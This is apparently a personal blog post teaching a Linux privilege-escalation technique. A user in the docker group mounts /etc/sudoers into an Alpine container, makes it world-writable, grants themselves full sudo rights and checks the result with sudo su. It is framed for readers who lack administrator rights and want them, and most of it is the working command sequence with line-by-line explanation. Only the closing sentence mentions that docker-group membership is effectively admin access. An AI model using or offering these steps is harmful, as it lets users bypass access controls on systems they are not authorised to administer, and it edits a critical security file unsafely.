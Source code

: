 ```yaml
---
author: "Maciej Budzyński"
title: "How to gain admin access on Linux using Docker?"
date: "2021-07-24T20:00:00+02:00"
categories: ["programming"]
ENtags: ["programming", "docker", "linux"]

---
```


Do you not have administrator privileges on your local machine? Do you have Linux and Docker? 
If the answer to the above questions is yes, then in this article I will show you how to use 
Docker to modify the sudoers file, allowing you to gain administrator privileges.

<!--more-->

# Prerequisites

The method presented here requires that the restricted user has access to docker commands, 
i.e., the user belongs to the docker group. Docker configuration requires the user to belong to 
this group. This method works only on Linux systems (tested on Ubuntu).

# TLDR

* Running alpine linux with the `/etc/sudoers` file mounted as `sudoers` in the container:
{{< highlight bash >}}
docker run -it -v /etc/sudoers:/sudoers --rm alpine /bin/sh
{{< /highlight >}}

* Changing permissions to edit the `sudoers` file using vi:
{{< highlight bash >}}
chmod 777 sudoers
vi sudoers
{{< /highlight >}}

* Adding the required permissions to the user in the `sudoers` file (press `i` to add an entry): 
{{< highlight bash >}}
# A tab is required between user and ALL (one TAB, not 4 spaces)
user	ALL=(ALL:ALL) ALL
{{< /highlight >}}

* Exiting vi with saving:
{{< highlight bash >}}
:wq
{{< /highlight >}}

* Changing the permissions of the `sudoers` file back to default values and exiting the container shell:
{{< highlight bash >}}
chmod 755 sudoers
exit
{{< /highlight >}}

* Verifying changes in the `sudoers` file:
{{< highlight bash >}}
cat /etc/sudoers
sudo su
{{< /highlight >}}

# Description of individual commands

## docker run -it -v /etc/sudoers:/sudoers --rm alpine /bin/sh

This command allows you to download the alpine linux image and then run a container from that image. 
The `-it` parameter is responsible for running interactive mode (keeps STDIN open even if not attached) 
and assigning a pseudo-TTY. 
The `-v` parameter binds the host's directory or file to the container's volume. In this case, we create 
a binding for the host file `/etc/sudoers` with the `sudoers` file in the root directory of our container. 
The `--rm` parameter ensures that after closing and exiting the shell, the created container will be removed. 
The `alpine /bin/sh` fragment is responsible for selecting the image from which the container will be created 
(in this case, alpine linux) and running the command (program) `/bin/sh`, which is the system shell.

## chmod 777 sudoers and vi sudoers

The `/etc/sudoers` file is protected from editing by default. Since alpine is a minimalist linux distribution, 
it has the vi file editor by default. The `sudoers` files should be edited using visudo, but alpine does not 
have this installed by default. To edit the file, you need to grant full permissions to the file for the current 
user using the `chmod 777 sudoers` command run in the alpine container. Then you can open the sudoers file using 
the vi editor with the command: `vi sudoers`. To be able to enter text in the vi editor, press the `i` key on 
the keyboard.

## user	ALL=(ALL:ALL) ALL

The above entry allows the `user` to have permissions to execute all commands. 
The first field indicates the username to which the rule applies (user). 
The first "ALL" means that this rule applies to all hosts. 
The second "ALL" means that the user can run commands as all users. 
The third "ALL" means that the user can run commands as all groups. 
The fourth "ALL" means that these rules apply to all commands. 
Remember to maintain the correct formatting in the file. In the case of Ubuntu, there was a tab between user 
and ALL (not four spaces). Personally, I am not sure if using a single space or 4 spaces will break anything, 
so to be sure, I kept the target formatting.

## Exiting vi 

To exit the vi editor saving changes, press the `esc` key on the keyboard, then type `:wq`. The commands after 
the colon are vi commands. `w` means we want to save the changes made to the file, and `q` means to close the file.

## chmod 755 sudoers and exit

We change the permissions of the sudoers file back to the default values before editing, and then exit the 
container shell using the `exit` command. After exiting, the alpine container will be removed. Only the downloaded 
image will remain on the disk.

## cat /etc/sudoers and sudo su

To verify access, we can use the `cat /etc/sudoers` command to check if the entries were added correctly. 
We can also use the `sudo su` command to check if we can execute commands as sudo.

# Conclusion

As you can see, docker allows you to change user permissions and modify files that we do not have access to by default. 
The Docker group belongs to the administrative groups, so a user in this group with access to execute docker commands 
can modify files without needing administrator access.